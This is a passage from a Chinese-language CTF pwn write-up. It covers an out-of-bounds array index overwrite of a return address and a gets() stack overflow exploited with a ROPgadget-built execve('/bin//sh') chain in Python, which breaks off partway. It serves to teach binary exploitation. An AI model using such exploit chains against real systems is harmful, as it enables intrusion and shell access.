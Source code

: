 所以 `arr` 起始到返回地址距离为 `0x34 + 0x4 = 0x38`。`int` 大小为 4 字节，所以最终 `i = 0x38 / 4 = 14`。

所以最终，姓名随便输，用 `edit number` 编辑，`index` 为 14，值为 `134514171`（目标函数地址的十进制值），然后 `exit`，就拿到 shell 啦！

的确这是很多 C 语言初学者都会犯的错误，这个 `NX` 和 `Canary` 都救不了。

## ROP

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

```c
int overflow()
{
  char v1; // [esp+Ch] [ebp-Ch]

  return gets(&v1);
}
```

很明显的 `gets()` 缓冲区溢出，也只有 `NX` 防护，但是是静态链接的。

用 `ROPgadget` 试一下。

```shell
ROPgadget --binary rop --ropchain
```

结果构造 ROP 链的脚本都帮我们写好了。

计算偏移为 `0xC + 0x4 = 16`。脚本稍作修改。Payload:

```python
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack
from pwn import process, remote

# Padding goes here
p = ' '*16

p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080b8016) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea064) # @ .data + 4
p += pack('<I', 0x080b8016) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0805466b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481c9) # pop ebx ; ret
p += pack('<I', 0x080ea060) # @ .data
p += pack('<I', 0x080de769) # pop ecx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x0806ecda) # pop edx ; ret
p += pack('<I', 0x080ea068) # @ .data + 8
p += pack('<I', 0x080492d3) # xor eax, eax ; ret
p += pack('<I', 0x0807a66f) # inc eax ; ret
```